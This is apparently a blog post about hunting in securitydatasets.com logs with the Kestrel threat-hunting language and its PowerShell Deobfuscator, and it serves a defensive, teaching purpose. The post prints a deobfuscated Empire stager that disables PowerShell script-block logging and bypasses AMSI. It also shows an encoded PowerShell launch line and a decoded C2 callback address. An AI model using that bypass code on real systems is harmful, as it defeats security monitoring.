 ```yaml
---
date: 2022-10-25
publishdate: 2022-10-25
published_url: "/posts/kestrel-sds-psd"
title: "Fun with securitydatasets.com and the Kestrel PowerShell Deobfuscator"
author: "Paul Coccoli"
publisher: "Open Cybersecurity Alliance"
featured_image: "/images/kestrel/huntflow.png"
summary: "Ready-made datasets from the Open Threat Research Forge meet Kestrel, featuring PowerShell Empire!"
tag: "blog"
---
```


Paul Coccoli &nbsp;·&nbsp; October 25, 2022 &nbsp;·&nbsp; 20 min read

The
[Kestrel](https://github.com/opencybersecurityalliance/kestrel-lang)
Threat Hunting Language is a novel "domain specific language" for
capturing and sharing threat hunts.  When getting started with
Kestrel, either [in a cloud
sandbox](https://opencybersecurityalliance.org/try-kestrel-in-a-cloud-sandbox/)
or a [local
install](https://kestrel.readthedocs.io/en/latest/installation/runtime.html),
you may want some example datasets to hunt against.  Example data is
useful both for learning [the
language](https://kestrel.readthedocs.io/en/latest/language.html) and
for testing your own [custom
analytics](https://opencybersecurityalliance.org/kestrel-custom-analytics/).

Luckily, the fine folks over at the [Open Threat Research Forge](https://github.com/OTRF) have created [securitydatasets.com](https://securitydatasets.com/introduction.html), a site (and github repo) that houses some nice datasets for threat hunting research.  In their own words:

> The Security Datasets project is an open-source initiatve that contributes malicious and benign datasets, from different platforms, to the infosec community to expedite data analysis and threat research.

As of version [1.4.1](https://github.com/opencybersecurityalliance/kestrel-lang/releases/tag/v1.4.1), Kestrel can now transparently use some of those datasets directly in a hunt.

**Table of Contents**

1. [Using Datasets From securitydatasets.com](#section:sds)
2. [The Empire Strikes...Something](#section:empire)
3. [Introducing the PowerShell Deobfuscator](#section:psd)
4. [Nesting Dolls](#section:nesting)

</br>
</br>

## <a name="section:sds"></a>Using Datasets From securitydatasets.com

securitydatasets.com stores host logs in their own JSON format (then zips them).  Most of the Windows datasets should be supported, and you can refer to them just like they were a STIX bundle.  For example, take a look at [Empire Mimikatz Extract Kerberos Keys](https://securitydatasets.com/notebooks/atomic/windows/credential_access/SDWIN-190518230752.html).  This page details an adversarial emulation run by OTRF, with the host events captured in a zipfile in GitHub.  By using the "Host" link shown in the "Datasets Download", you can try using Kestrel for detecting this technique.  For a first step, try looking for some PowerShell processes:

```elixir
procs = GET process
        FROM https://raw.githubusercontent.com/OTRF/Security-Datasets/master/datasets/atomic/windows/credential_access/host/empire_mimikatz_extract_keys.zip
        WHERE [process:binary_ref.name = 'powershell.exe']
```

Kestrel will download the zip file, unzip it, read in the JSON, transform it on the fly to STIX, then ingest it as if it were search results from [stix-shifter](https://github.com/opencybersecurityalliance/stix-shifter).

If you try out that command above, then `DISP procs` to see what Kestrel found, you might notice something interesting.  One of those processes has a very long command line with what almost looks like random junk:

```shell
powershell.exe" -noP -sta -w 1 -enc SQBGACgA...RQBYAA==
```

Note that I've omitted a huge chunk of the command line, for both your sanity and mine.  So what's going on here?

## <a name="section:empire"></a>The Empire Strikes...Something

Take a look at the [Adversary View](https://securitydatasets.com/notebooks/atomic/windows/credential_access/SDWIN-190518230752.html#adversary-view) of the page where we got the dataset from.  What's this "Empire" stuff all about?  The "adversarial emulation" uses [Empire](https://github.com/BC-SECURITY/Empire):

> Empire is a post-exploitation and adversary emulation framework that is used to aid Red Teams and Penetration Testers.

One of the capabilities of this framework is PowerShell obfuscation;
it uses multiple [PowerShell obfuscation
techniques](https://www.offensive-security.com/offsec/powershell-obfuscation/)
to try to cover its tracks.  So what can Kestrel do to help us figure
out what this PowerShell process is actually doing?

## <a name="section:psd"></a>Introducing PowerShell Deobfuscator

The [PowerShell
Deobfuscator](https://github.com/opencybersecurityalliance/kestrel-analytics/tree/release/analytics/psd)
is a [Kestrel analytics
module](https://kestrel.readthedocs.io/en/latest/installation/analytics.html#kestrel-analytics-abstraction)
that attempts to undo some of the obfuscation techniques.  You can run
it like any other Kestrel analytics module, using the `APPLY` keyword:

```elixir
APPLY python://psd ON procs
```

`procs` will have a new attribute, `x_psd_deobfuscated`, that holds the deobfuscated portion of the command line.  What's even more useful is the display output: an HTML dump of the deofuscated code, properly indented for readability.  The display output should resemble this:

```powershell
if ($PSVERSIONTABLE.psversion.major -ge 3) {
    $ACE6 = [ref].assembly.gettype('System.Management.Automation.Utils').getfield('cachedGroupPolicySettings', 'NonPublic,Static');
    if ($ACE6) {
        $4c0d = $ACE6.getvalue($null);
        if ($4c0d['ScriptBlockLogging']) {
            $4c0d['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0;
            $4c0d['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
        }
        $VAL = [collections.generic.dictionary[string, system.object]]::new();
        $VAL.add('EnableScriptBlockLogging', 0);
        $VAL.add('EnableScriptBlockInvocationLogging', 0);
        $4c0d['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = $VAL
    }
    else {
        [scriptblock].getfield('signatures', 'NonPublic,Static').setvalue($null, (new-object collections.generic.hashset[string]))
    }
    $REF = [ref].assembly.gettype('System.Management.Automation.AmsiUtils');
    $REF.getfield('amsiInitFailed', 'NonPublic,Static').setvalue($null, $true);
    
}
```

A hunter can now scan the code and perhaps get some idea of what to look at next.

## <a name="section:nesting"></a>Nesting Dolls

What happens when the code that was base64-encoded itself uses
base64-encoded data?  When `psd` notices this, it will unencode and
append the result as a comment:

```powershell
$SER = $([text.encoding]::unicode.getstring([convert]::frombase64string('aAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADAALgA1AA==')));  # http://10.10.10.5
```

The line above, which is found inside a larger, obfuscated PowerShell script, is simply assigning a string value to the variable `$SER`.  That string value, however, has been base64-encoded just like the script that contains it.  The comment at the end of the line was added by `psd`, and is the unencoded version of `'aAB0...AA=='`.  As you can see, it's a URL (actually a portion of a URL; further on in the script a path will be appended).

In this dataset, it's a private IP address, so you can't really go much farther.  It may be a command and control server (possibly the one running Empire) or a staging site to download the next stage of the payload.  The "Adversary View" from the dataset page shows that the Empire PowerShell agent will run the `mimikatz` tool, so maybe that's the next payload stage?  It's an exercise left to the reader.

Happy hunting!